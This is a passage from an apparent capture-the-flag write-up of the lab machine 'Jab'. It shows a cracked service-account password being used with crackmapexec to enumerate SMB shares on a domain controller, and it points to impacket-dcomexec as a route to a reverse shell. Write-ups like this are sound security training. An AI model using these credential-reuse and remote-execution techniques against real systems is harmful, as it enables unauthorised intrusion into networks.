 ![pidgin-bdavis Room List](images/Jab-pidgin-bdavis-room-list.png)

There we find this cracked user:password pair `svc_openfire:!@#$%^&*(1qazxsw`.

## Active Directory

At the beginning I'd tried checking for null and Guest access on `SMB` services, but I had no luck, perhaps these credentials can be helpful.

```bash
$ crackmapexec smb 10.10.11.4 -u 'svc_openfire' -p '!@#$%^&*(1qazxsw' --shares
SMB         10.10.11.4      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.4      445    DC01             [+] jab.htb\svc_openfire:!@#$%^&*(1qazxsw 
SMB         10.10.11.4      445    DC01             [+] Enumerated shares
SMB         10.10.11.4      445    DC01             Share           Permissions     Remark
SMB         10.10.11.4      445    DC01             -----           -----------     ------
SMB         10.10.11.4      445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.4      445    DC01             C$                              Default share
SMB         10.10.11.4      445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.4      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.4      445    DC01             SYSVOL          READ            Logon server share 
```

Again, nothing too useful since we have no write permissions...

We could try to use `impacket-dcomexec` to gain reverse shell, using the information in [this article](https://medium.com/@iamkumarraj/exploring-impacket-dcomexec-enhancing-active-directory-attack-capabilities-a9663d383703):

